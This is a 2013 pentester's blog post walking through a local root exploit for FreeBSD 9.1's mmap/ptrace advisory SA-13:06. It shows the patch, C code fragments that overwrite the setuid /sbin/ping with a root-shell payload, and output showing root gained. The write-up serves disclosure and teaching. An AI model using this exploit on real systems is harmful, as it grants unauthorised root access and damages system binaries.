 ```yaml
---
layout: post
title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
tags:
- freebsd
- pentest
date: 2013-06-20 00:00 +0000
---
```


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================

--- sys/vm/vm_map.c	(revision 251636)

+++ sys/vm/vm_map.c	(working copy)

@@ -3761,6 +3761,12 @@ RetryLookup:;
 		vm_map_unlock_read(map);
 		return (KERN_PROTECTION_FAILURE);
 	}
+	if ((fault_typea & VM_PROT_COPY) != 0 &&

+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&

+	    (entry->eflags & MAP_ENTRY_COW) == 0) {

+		vm_map_unlock_read(map);

+		return (KERN_PROTECTION_FAILURE);

+	}

 	/*
 	 * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

_Note_: I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)
```c
int fd = open("/sbin/ping", O_RDONLY);
caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);
```

2. `fork` to passe to be the mmaped address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

```c
	if (ptrace(PT_ATTACH, pid, 0, 0) < 0) {
		perror("[-] ptrace(PT_ATTACH) failed");
		return;
	}
   [...]
   int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
	write(fd,
         "#include <stdio.h>\n"\
         "main(){ "\
         "char* s[]={\"/bin/sh\",NULL};"\
         "setuid(0);execve(s[0],s,0); }\n",
         84);
	close(fd);
	system("gcc -o ./sc ./sc.c");
```

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`
```c
   fd = open("./sc", O_RDONLY);
	while (1) {
		int a;
		int n = read(fd, &a, sizeof(int));
		if (n <= 0) break;
		ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
		i+=n;
	}
```

Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 # id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privesc I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
